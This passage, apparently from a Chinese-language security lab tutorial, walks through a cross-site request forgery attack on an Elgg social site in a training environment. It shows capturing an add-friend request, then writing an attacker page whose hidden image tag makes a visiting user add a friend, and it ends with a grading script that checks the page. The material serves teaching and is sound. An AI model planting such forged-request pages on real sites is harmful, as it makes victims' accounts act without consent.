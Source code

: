 >    点击 Firefox 菜单栏中 Tools；

>	点击 LiveHttpHeader

>	勾选 Capture

>	点击 add friend

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186167643?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

分析抓取到的数据包：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186206593?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

添加 boby 用户的链接,例如：

```
http://www.csrflabelgg.com/action/friends/add?friend=40&__elgg_ts=1524817660&__elgg_token=f581b9c0b6fab2aa1c5b5c64a7b4cf0c
```

这样我们就可以构造一个页面，让 Alice 用户访问以后，就会添加 boby 为好友。

```
    sudo vim /var/www/CSRF/Attacker/hack.html
```

输入下面代码：

```
<html>
<img src="http://www.csrflabelgg.com/action/friends/add?friend=40&__elgg_ts=1524817660&__elgg_token=f581b9c0b6fab2aa1c5b5c64a7b4cf0c">
</html>
```
> 注意：这里的链接根据你实际获取到的链接填写

Alice 用户访问前：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186343735?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)
	
Alice 用户访问：www.csrflabattacker.com/hack.html

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186371620?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

Alice 用户访问后：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186395717?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

```checker
- name: check hack.html
  script: |
    #!/bin/bash
    file_name="/var/www/CSRF/Attacker/hack.html"
    ls $file_name
    grep friends $file_name
  error: hack.html不存在或者文件内容不对
```
